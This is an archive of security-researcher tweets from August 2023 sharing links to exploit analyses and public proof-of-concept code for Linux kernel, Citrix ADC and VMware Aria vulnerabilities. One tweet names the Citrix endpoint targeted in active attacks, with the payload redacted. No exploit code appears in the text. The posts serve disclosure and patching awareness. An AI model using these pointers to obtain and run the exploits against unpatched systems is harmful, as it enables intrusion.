</tr></table>

---

# linkersec
**https://twitter.com/linkersec/status/1688001640203243520 _at 2023-08-06, 01:38:47_**
<blockquote>
StackRot (CVE-2023-3269): Linux kernel privilege escalation vulnerability

An article by Ruihan Li about exploiting StackRot — a locking bug in the virtual memory management subsystem that leads to a UAF-by-RCU vulnerability.

https://t.co/NR9gx5lOqq
</blockquote>

* https://github.com/lrh2000/StackRot

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1687893754483515393 _at 2023-08-05, 18:30:05_**
<blockquote>
Excellent analysis and exploitation of a use-after-free vulnerability in Traffic Control cls_tcindex (CVE-2023-1829).
Credits @lanleft_ (@starlabs_sg)

https://t.co/tb91t583gl

#cybersecurity #exploit #Linux https://t.co/HGA5PTOfS2
</blockquote>

* https://starlabs.sg/blog/2023/06-breaking-the-code-exploiting-and-examining-cve-2023-1829-in-cls_tcindex-classifier-vulnerability/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1687645245721505792 _at 2023-08-05, 02:02:36_**
<blockquote>
GitHub - BishopFox/CVE-2023-3519: RCE exploit for CVE-2023-3519 - https://t.co/FadweSfyei
</blockquote>

* https://github.com/BishopFox/CVE-2023-3519

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# noperator
**https://twitter.com/noperator/status/1687618913079545856 _at 2023-08-05, 00:17:57_**
<blockquote>
We're following others by publishing our exploit (and shellcode generator) for the critical-severity CVE-2023-3519, preauth RCE in Citrix ADC Gateway. If you haven't patched yet—do. 🩹 https://t.co/uTXQTvL8zc
</blockquote>

* https://github.com/BishopFox/CVE-2023-3519

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1687060842007658496 _at 2023-08-03, 11:20:23_**
<blockquote>
🚨 Watch out, we are seeing a possible active exploitation of CVE-2023-3519 (Citrix RCE) 🔥

The endpoit used is "/gwtest/formssso?event=start&amp;target=" which corresponds to the @assetnote analysis here https://t.co/5wt0WfFahT. For security reasons the payload has been redacted. https://t.co/k0r9cjMfIu
</blockquote>

* https://blog.assetnote.io/2023/07/24/citrix-rce-part-2-cve-2023-3519/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1686995498446569473 _at 2023-08-03, 07:00:44_**
<blockquote>
Quick blog post on CVE-2023-20887 exploitation (RCE on VMware Aria Operations for Networks)
Credits @SinSinology

https://t.co/2VmufUEifA

#vmware #cve #infosec https://t.co/HkAkxhdyUd
</blockquote>

* https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-20887/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

